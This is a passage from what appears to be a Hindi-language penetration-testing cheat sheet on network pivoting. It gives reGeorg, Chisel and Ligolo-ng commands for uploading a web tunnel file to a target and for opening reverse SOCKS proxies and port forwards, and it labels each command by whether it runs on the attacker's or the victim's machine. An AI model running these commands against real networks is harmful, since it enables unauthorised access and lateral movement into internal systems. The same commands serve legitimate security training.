 [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

आपको एक वेब फ़ाइल टनल अपलोड करने की आवश्यकता है: ashx|aspx|js|jsp|php|php|jsp
```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```
## Chisel

आप इसे [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) के रिलीज़ पृष्ठ से डाउनलोड कर सकते हैं।\
आपको **क्लाइंट और सर्वर के लिए समान संस्करण का उपयोग करना होगा**।

### socks
```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```
### पोर्ट फॉरवर्डिंग
```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```
## Ligolo-ng

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

**एजेंट और प्रॉक्सी के लिए एक ही संस्करण का उपयोग करें**

### टनलिंग
```bash
# Start proxy server and automatically generate self-signed TLS certificates -- Attacker
sudo ./proxy -selfcert
# Create an interface named "ligolo" -- Attacker
interface_create --name "ligolo"
# Print the currently used certificate fingerprint -- Attacker
certificate_fingerprint
# Start the agent with certification validation -- Victim
./agent -connect <ip_proxy>:11601 -v -accept-fingerprint <fingerprint>
# Select the agent -- Attacker
session
1
# Start the tunnel on the proxy server -- Attacker
tunnel_start --tun "ligolo"
# Display the agent's network configuration -- Attacker
ifconfig
# Create a route to the agent's specified network -- Attacker
interface_add_route --name "ligolo" --route <network_address_agent>/<netmask_agent>
# Display the tun interfaces -- Attacker
interface_list
```
### एजेंट बाइंडिंग और सुनना
```bash
# Establish a tunnel from the proxy server to the agent
# Create a TCP listening socket on the agent (0.0.0.0) on port 30000 and forward incoming TCP connections to the proxy (127.0.0.1) on port 10000 -- Attacker
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
# Display the currently running listeners on the agent -- Attacker
listener_list
```